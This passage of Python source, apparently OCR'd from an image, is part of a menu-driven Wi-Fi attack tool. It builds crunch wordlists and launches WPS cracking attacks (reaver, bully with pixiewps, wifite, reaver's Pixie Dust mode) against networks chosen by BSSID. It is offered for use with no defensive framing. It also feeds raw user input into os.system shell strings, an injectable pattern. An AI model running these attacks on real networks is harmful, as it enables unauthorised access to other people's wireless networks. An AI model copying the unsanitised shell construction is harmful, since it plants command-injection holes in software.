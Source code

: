             geny  = os.system(order)
        else:
            print("\nNot Found")
            intro()
        print("Copy the Password and Close the tool")
        cmd5 = os.system("sleep 3d")
    elif var == 9 :
        print("\nEnter the minimum length of the password (8/64)?")
        mini = int(input(""))
        print("\nEnter the maximum length of the password (8/64)?")
        max  = int(input(""))
        print("\nEnter the path of the output file?")
        path = str(input(""))
        print("\nEnter what you want the password contain ?")
        password = str(input(""))
        order = ("crunch {} {} {} -o {}").format(mini,max,password,path)
        geny = os.system(order)
        a = ("The wordlist in >>>>> {} Named as SRART").format(path)
        print(a)
    elif var == 10:
        cmd = os.system("clear")
        print("""
1)Reaver
2)Bully
3)wifite (Recommeneded)
4)PixieWps

0) Back to Main Menu
""")
        print("Choose the kind of the attack(External WIFI Adapter Require) ?")
        attack = int(input(""))
        if attack == 1:
            print("\nEnter the interface to start ?(Default(Wlan0mon/Wlan1mon))")
            interface = str(input(""))
            print("\nEnter the bssid of the network ?")
            bssid = str(input(""))
            order = ("reaver -i {} -b {} -vv").format(interface,bssid)
            geny = os.system(order)
            intro()
        elif attack == 2:
            print("\nEnter the interface to start ?(Default(Wlan0mon/Wlan1mon)")
            interface = str(input(""))
            print("\nEnter the bssid of the network ?")
            bssid = str(input(""))
            print("\nEnter the channel of the network ?")
            channel = int(input(""))
            order = ("bully -b {} -c {} --pixiewps {}").format(bssid,channel,interface)
            geny = os.system(order)
            intro()
        elif attack == 3:
            cmd = os.system("wifite")
            intro()
        elif attack == 4:
            print("\nEnter the interface to start ?(Default(Wlan0mon/Wlan1mon)")
            interface = str(input(""))
            print("\nEnter the bssid of the network ?")
            bssid = str(input(""))
            order = ("reaver -i {} -b {} -K").format(interface,bssid)
            geny = os.system(order)
            intro()
        elif attack == 0 :
            intro()
    elif var == 11:
        print("\nEnter the interface to start ?(Default(Wlan0mon/Wlan1mon)")
